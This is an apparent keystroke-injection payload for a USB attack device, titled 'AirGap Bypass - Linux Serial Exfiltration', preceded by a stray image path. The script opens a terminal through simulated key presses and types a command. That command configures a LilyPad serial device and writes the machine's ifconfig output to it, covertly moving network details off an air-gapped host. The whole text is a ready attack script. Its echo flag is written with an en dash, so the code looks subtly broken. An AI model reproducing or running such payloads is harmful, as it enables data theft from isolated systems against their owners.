

# AirGap Bypass - Linux Serial Exfiltration
CustomDelay:3000
DefaultDelay:50
Press:134+195
CustomDelay:1000
PrintLine:gnome-terminal
CustomDelay:1000
PrintLine:sleep .5;stty -F /dev/serial/by-id/*LilyPad* 38400;echo – e "SerialEXFIL:"$(ifconfig)"\n" > /dev/serial/by-id/*LilyPad*;exit